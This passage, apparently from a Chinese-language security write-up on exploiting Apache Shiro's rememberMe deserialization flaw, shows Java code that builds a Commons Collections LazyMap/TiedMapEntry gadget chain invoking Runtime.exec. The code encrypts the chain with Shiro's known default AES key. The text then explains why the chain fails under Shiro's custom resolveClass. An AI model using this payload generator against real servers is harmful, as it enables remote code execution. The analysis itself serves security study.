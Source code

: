 ```java
                                new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazymap = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry mapentry = new TiedMapEntry(new HaspMap<>(), 'a');
        hashMap.put(mapentry,'b');
        Field mapfield = TiedMapEntry.class.getDeclaredField("map");
        mapfield.setAccessible(true);
        mapfield.set(mapentry,lazymap);
        lazymap.remove('a');
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(lazymap);
        oos.flush();
        return bos.toByteArray();
    }

    private static String tob64(byte[] scode) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException {
        byte[] keyBytes = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        SecretKeySpec keySpec = new SecretKeySpec(keyBytes, "AES");
        byte[] iv = new byte[16];
        new SecureRandom().nextBytes(iv);
        IvParameterSpec ivSpec = new IvParameterSpec(iv);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encryptedData = cipher.doFinal(scode);
        byte[] concatenatedArray = new byte[iv.length + encryptedData.length];
        System.arraycopy(iv, 0, concatenatedArray, 0, iv.length);
        System.arraycopy(encryptedData, 0, concatenatedArray, iv.length, encryptedData.length);
        return Base64.getEncoder().encodeToString(concatenatedArray);
    }
}
```

却抛出一个异常：

```java
Unable to load class named [[Lorg.apache.commons.collections.Transformer;]
```

也就是说没办法成功的加载到Transformer这个类。原因在于我们之前提到的Shiro在反序列化读取输入流时没有用我们常规的ObjectInputStream而是用了ClassResolvingObjectInputStream.其重写了`resolveClass`方法

```java
@Override
protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
    try {
        return ClassUtils.forName(osc.getName());
    } catch (UnknownClassException e) {
        throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", e);
    }
}
```
